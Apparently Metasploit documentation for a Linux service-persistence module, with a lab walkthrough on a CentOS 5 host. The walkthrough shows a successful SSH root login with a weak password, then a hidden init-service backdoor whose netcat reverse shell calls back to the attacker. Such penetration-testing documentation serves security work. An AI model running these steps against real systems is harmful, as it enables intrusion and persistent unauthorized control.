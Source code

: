 **SERVICE**

  The name of the service to create.  If not chosen, a 7 character random one is created.

**SHELL_NAME**

  The name of the file to write with our shell.  If not chosen, a 5 character random one is created.

## Scenarios

### System V (Centos 5 - root - chkconfig)

Get initial access

    msf > use auxiliary/scanner/ssh/ssh_login
    msf auxiliary(ssh_login) > set rhosts 192.168.199.131
    rhosts => 192.168.199.131
    msf auxiliary(ssh_login) > set username root
    username => root
    msf auxiliary(ssh_login) > set password centos
    password => centos
    msf auxiliary(ssh_login) > exploit
    
    [*] 192.168.199.131:22 SSH - Starting bruteforce
    [+] 192.168.199.131:22 SSH - Success: 'root:centos' 'uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel) context=root:system_r:unconfined_t:SystemLow-SystemHigh Linux localhost.localdomain 2.6.18-398.el5 #1 SMP Tue Sep 16 20:51:48 EDT 2014 i686 i686 i386 GNU/Linux '
    [*] Command shell session 1 opened (192.168.199.128:49359 -> 192.168.199.131:22) at 2016-06-22 14:27:38 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed

Install our callback service (system_v w/ chkconfig).  Note we change BACKDOOR_PATH since /usr/local/bin isnt in the path for CentOS 5 services.

    msf auxiliary(ssh_login) > use exploit/linux/local/service_persistence
    msf exploit(service_persistence) > set session 1
    session => 1
    msf exploit(service_persistence) > set verbose true
    verbose => true
    msf exploit(service_persistence) > set BACKDOOR_PATH /bin
    BACKDOOR_PATH => /bin
    msf exploit(service_persistence) > set payload cmd/unix/reverse_netcat
    payload => cmd/unix/reverse_netcat
    msf exploit(service_persistence) > set lhost 192.168.199.128
    lhost => 192.168.199.128
    msf exploit(service_persistence) > exploit
    
    [*] Started reverse handler on 192.168.199.128:4444 
    [*] Writing backdoor to /bin/GUIJc
    [*] Max line length is 65537
    [*] Writing 95 bytes in 1 chunks of 329 bytes (octal-encoded), using printf
    [*] Utilizing System_V
    [*] Utilizing chkconfig
    [*] Writing service: /etc/init.d/HqdezBF
    [*] Max line length is 65537
    [*] Writing 1825 bytes in 1 chunks of 6409 bytes (octal-encoded), using printf
    [*] Enabling & starting our service
    [*] Command shell session 2 opened (192.168.199.128:4444 -> 192.168.199.131:56182) at 2016-06-22 14:27:50 -0400
